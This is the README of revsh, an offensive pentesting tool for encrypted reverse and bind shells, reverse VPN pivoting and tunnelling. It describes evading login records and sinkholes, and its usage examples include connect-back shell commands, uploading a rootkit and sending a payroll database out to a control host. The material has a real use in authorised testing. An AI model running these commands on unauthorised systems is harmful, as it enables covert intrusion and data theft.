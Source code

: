 # revsh #

_revsh_ is a tool for establishing [reverse shells](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support, reverse [VPNs](https://en.wikipedia.org/wiki/Virtual_private_network) for [advanced pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting), as well as arbitrary data tunneling.

## News ##

* __2018-08-09__: New release. Mosly bugfixes and improved build stability. See the _Installation_ section below for updated build instructions.

## Overview ##

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "reverse VPN"?**

_revsh_ is capable of attaching a virtual ethernet card (tun/tap) to both ends of its crypto tunnel. These cards can then be used to forward raw IP packets or ethernet frames. When combined with an Iptables NAT rule, or bridging a real ethernet card, this allows for the operator to receive a fully routable IP address on the target machines network. This, essentially, is a full VPN that has performed a connect-back call to the operator to circumvent in-bound packet filtering and grant the operator full network access.

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. vi)
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.
 * Proxy support: point-to-point, SOCKS 4, SOCKS 4a, and SOCKS 5. Proxys are available in both directions for complete flexibility.
 * TUN / TAP support for forwarding raw IP packets / Ethernet frames.
 * Escape sequence commands to kill non-responsive nodes, or print connection statistics.


_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~75k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	Control:	revsh -c [CONTROL_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	Target:		revsh     [TARGET_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	
		ADDRESS		The address of the control listener.		(Default is "0.0.0.0".)
		PORT		The port of the control listener.		(Default is "2200".)
	
	CONTROL_OPTIONS:
		-c		Run in "command and control" mode.		(Default is target mode.)
		-a		Enable Anonymous Diffie-Hellman mode.		(Default is Ephemeral Diffie-Hellman.)
		-d KEYS_DIR	Reference the keys in an alternate directory.	(Default is "~/.revsh/keys/".)
		-f RC_FILE	Reference an alternate rc file.			(Default is "~/.revsh/rc".)
		-s SHELL	Invoke SHELL as the remote shell.		(Default is "/bin/bash".)
		-F LOG_FILE	Log general use and errors to LOG_FILE.		(No default set.)
	
	TARGET_OPTIONS:
		-t SEC		Set the connection timeout to SEC seconds.	(Default is "3600".)
		-r SEC1,SEC2	Set the retry time to be SEC1 seconds, or	(Default is "600,1200".)
				to be random in the range from SEC1 to SEC2.
	
	MUTUAL_OPTIONS:
		-k		Run in keep-alive mode.
				Node will neither exit normally, nor timeout.
		-L [LHOST:]LPORT:RHOST:RPORT
				Static socket forwarding with a local listener
				at LHOST:LPORT forwarding to RHOST:RPORT.
		-R [RHOST:]RPORT:LHOST:LPORT
				Static socket forwarding with a remote listener
				at RHOST:RPORT forwarding to LHOST:LPORT.
		-D [LHOST:]LPORT
				Dynamic socket forwarding with a local listener
				at LHOST:LPORT.					(Socks 4, 4a, and 5. TCP connect only.)
		-B [RHOST:]RPORT
				Dynamic socket forwarding with a remote
				listener at LHOST:LPORT.			(Socks 4, 4a, and 5. TCP connect only.)
		-x		Disable automatic setup of proxies.		(Defaults: Proxy D2280 and tun/tap devices.)
		-b		Start in bind shell mode.			(Default is reverse shell mode.)
				The -b flag must be invoked on both ends.
		-n		Non-interactive netcat style data broker.	(Default is interactive w/remote tty.)
				No tty. Useful for copying files.
		-v		Verbose. -vv and -vvv increase verbosity.
		-V		Print the program and protocol versions.
		-h		Print this help.
		-e		Print out some usage examples.

## Installation ##

First, you will need to build OpenSSL from source. (See NOTE below.)

	git clone https://github.com/openssl/openssl.git
	cd openssl/
	./config no-shared -static	# These options are needed to build static applications against OpenSSL.
	make && make test
	cd ..

Now build revsh.

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	vi Makefile        # Check that the selected build environment is the one you want. (It probably already is by default.)
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	vi ~/.revsh/rc     # Add your favorite startup commands to really customize the feel of your remote shell.
	revsh -h

NOTE: With the release of OpenSSL 1.1.0, OpenSSL needs to be built from source for use in a statically linked binary. Building a statically linked binary against the OpenSSL libraries that ship with most Linux distros (including Kali) will *not* work. (If it builds at all, it will SEGFAULT.)

## Examples ##

Control host example IP: 192.168.0.42
<br>
Target host example IP:  192.168.0.66

	Interactive example on default port '2200':
		control:	revsh -c
		target:		revsh 192.168.0.42
	
	Interactive example on non-standard port '443':
		control:	revsh -c 192.168.0.42:443
		target:		revsh 192.168.0.42:443
	
	Bindshell example:
		target:		revsh -b
		control:	revsh -c -b 192.168.0.66
	
	Non-interactive file upload example:
		control:	cat ~/bin/rootkit | revsh -c -n
		target:		revsh 192.168.0.42 > ./totally_not_a_rootkit
	
	Non-interactive file download example:
		control:	revsh -c -n >payroll_db.tar
		target:		cat payroll_db.tar | revsh 192.168.0.42
	
	Non-interactive file download example across existing tunnel:
		control:	revsh -c -n 127.0.0.1:2291 >payroll_db.tar
		target:		cat payroll_db.tar | revsh 127.0.0.1:2290

